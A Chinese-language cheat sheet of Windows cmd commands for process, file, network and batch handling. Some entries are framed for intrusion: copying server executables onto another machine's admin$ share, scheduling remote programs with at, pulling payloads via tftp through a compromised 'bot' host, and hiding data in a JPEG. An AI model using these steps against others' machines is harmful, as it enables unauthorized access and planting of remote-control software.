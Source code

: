 　　
### 进程和文件管理
---

`tlist -t`  以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
`kill -F` 进程名 加`-F`参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
`del -F` 文件名 加`-F`参数后就可删除只读文件,`/AR、/AH、/AS、/AA`分别表示删除只读、隐藏、系统、存档文件，`/A-R、/A-H、/A-S、/A-A`表示删除除只读、隐藏、系统、存档以外的文件。例如`DEL/AR *.*`表示删除当前目录下所有只读文件，`DEL/A-S *.*`表示删除当前目录下除系统文件以外的所有文件
`del /S /Q 目录` 或用：`rmdir /s /Q 目录 /S`删除目录及目录下的所有子目录和文件。同时使用参数`/Q` 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
`move` 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
`fc one.txt two.txt > 3st.txt` 对比二个文件并把不同之处输出到3st.txt文件中，`> `和`>>` 是重定向命令
`at id号` 开启已注册的某个计划任务
`at /delete` 停止所有计划任务，用参数`/yes`则不需要确认就直接停止
`at id号 /delete` 停止某个已注册的计划任务
`at` 查看所有的计划任务
`at ip time 程序名(或一个命令) /r` 在某时间运行对方某程序并重新启动计算机
`finger username @host` 查看最近有哪些用户登陆
`telnet ip 端口` 远和登陆服务器,默认端口为23
`open ip` 连接到IP（属telnet登陆后的命令）
`telnet` 在本机上直接键入telnet 将进入本机的telnet
`copy 路径文件名1　路径文件名2 /y` 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
`copy c:srv.exe ipadmin$` 复制本地`c:srv.exe`到对方的`admin`下
`copy 1st.jpg/b+2st.txt/a 3st.jpg` 将`2st.txt`的内容藏身到`1st.jpg`中生成`3st.jpg`新的文件，注：`2st.txt`文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
`copy ipadmin$svv.exe c: `或:`copyipadmin$*.*` 复制对方`admini$`共享下的`srv.exe`文件（所有文件）至本地`C：`
`xcopy` 要复制的文件或目录树目标地址目录名 复制文件和目录树，用参数`/Y`将不提示覆盖相同文件
用参数`/e`才可连目录下的子目录一起复制到目标地址下。
`tftp -i 自己IP`(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：`-i`指以二进制模式传送，如传送exe文件时用，如不加`-i` 则以`ASCII`模式（传送文本文件模式）进行传送
　　`tftp -i 对方IP`　put c:server.exe 登陆后，上传本地c:server.exe至主机
　　`ftp ip 端口` 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
　　`route print `显示出IP路由，将主要显示网络地址`Network addres`，子网掩码`Netmask`，网关地址`Gateway addres`，接口地址Interface
　　`arp` 查看和处理`ARP`缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。`arp -a`将显示出全部信息
　　`start` 程序名或命令` /max` 或`/min` 新开一个新窗口并最大化（最小化）运行某程序或命令
　　`mem` 查看cpu使用情况
　　`attrib 文件名(目录名)` 查看某文件（目录）的属性
　　`attrib 文件名 -A -R -S -H 或 +A +R +S +H` 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
　　`dir` 查看文件，参数：`/Q`显示文件及目录属系统哪个用户，`/T:C`显示文件创建时间，`/T:A`显示文件上次被访问时间，`/T:W`上次被修改时间
　　`date /t 、 time /t` 使用此参数即`DATE/T`、`TIME/T`将只显示当前日期和时间，而不必输入新日期和时间

### 环境变量设置
`set` 指定环境变量名称=要指派给变量的字符 设置环境变量
`set` 显示当前所有的环境变量
`set p`(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
`pause` 暂停批处理程序，并显示出：请按任意键继续....
`if` 在批处理程序中执行条件处理（更多说明见if命令及变量）
`goto` 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
`call` 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
`for` 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
`echo on` 或`off` 打开或关闭`echo`，仅用`echo`不加参数则显示当前echo设置
`echo` 信息 在屏幕上显示出信息
`echo 信息 >> pass.txt` 将"信息"保存到pass.txt文件中
`findstr "Hello" aa.txt `在aa.txt文件中寻找字符串hello
`find 文件名 `查找某文件
`title 标题名字 `更改CMD窗口标题名字
`color 颜色值` 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
`prompt 名称` 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
`ver `在DOS窗口下显示版本信息
`winver` 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
`format 盘符 /FS:类型` 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
`md　目录名` 创建目录
`replace 源文件`　要替换文件的目录 替换文件